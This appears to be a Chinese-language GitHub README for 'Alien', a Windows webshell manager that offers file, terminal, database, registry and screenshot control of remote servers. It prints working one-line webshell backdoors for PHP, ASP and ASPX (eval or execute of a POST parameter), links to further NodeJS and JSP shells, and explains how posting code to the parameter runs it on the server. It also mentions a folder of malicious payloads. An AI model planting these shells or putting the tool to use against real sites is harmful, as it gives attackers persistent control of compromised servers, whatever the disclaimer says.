 # Alien

Webshell 管理工具

## Author
- [@ISSAC](https://www.github.com/malbuffer4pt)

# 免責聲明
工具只限用於學習用途，網站管理和合法滲透測試，不可用於非法用途。\
如非法使用則後果自負。

## 工具平台
Windows

## 語言
C# .NET Framework V4.8

## 功能
- File Manager (可顯示圖片, 可SearchFile)
- Virtual Terminal
- Database
- Registry
- Monitor
- Screenshot
- System Information

## 一句話木馬
一句話木馬是在滲透測試中用來控制伺服器的工具\
強大之處在於木馬本身體積小，不易發現\
以下是最簡單的一句話木馬

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```
當然, Alien還可以使用asmx, ashx等等的Webshell。
- NodeJS & JSP
```https://github.com/malbuffer4pt/Alien/blob/main/shell.txt```

## 關於JSP webshell
目前只有比較原始的菜刀版本, 之後可能會加上蟻劍和冰蝎\
shell有進行更改, 新增了可以顯示圖片的功能

## 關於NodeJS webshell
由於NodeJS特性, 原理跟一般php asp aspx等動態語言的shell不同, \
NodeJS目的重在管理而非滲透

## 伺服器
Windows Linux Unix MacOS

## Database管理
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## 原理
以PHP為例子, eval()可以把string以PHP Code去執行，\
如果eval()中帶有可控變數，那麼就可以執行任意程式碼。\
如eval($_POST['a']);\
HTTP POST a=phpinfo(); 就可以執行phpinfo();

## 注意!
- 工具Payloads資料夾內有符合惡意程式的Payload, 可能會被防毒刪除
- 目前只有刪減版，但部份程式碼沒有刪除，Disassemble應該會有奇怪但無法使用的東西

## 圖片
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)
![7](https://github.com/malbuffer4pt/Alien/blob/main/7.png)
![8](https://github.com/malbuffer4pt/Alien/blob/main/8.png)
![9](https://github.com/malbuffer4pt/Alien/blob/main/9.png)
![10](https://github.com/malbuffer4pt/Alien/blob/main/10.png)
![11](https://github.com/malbuffer4pt/Alien/blob/main/11.png)
![12](https://github.com/malbuffer4pt/Alien/blob/main/12.png)
11
## 致謝
研究webshell的各位前輩

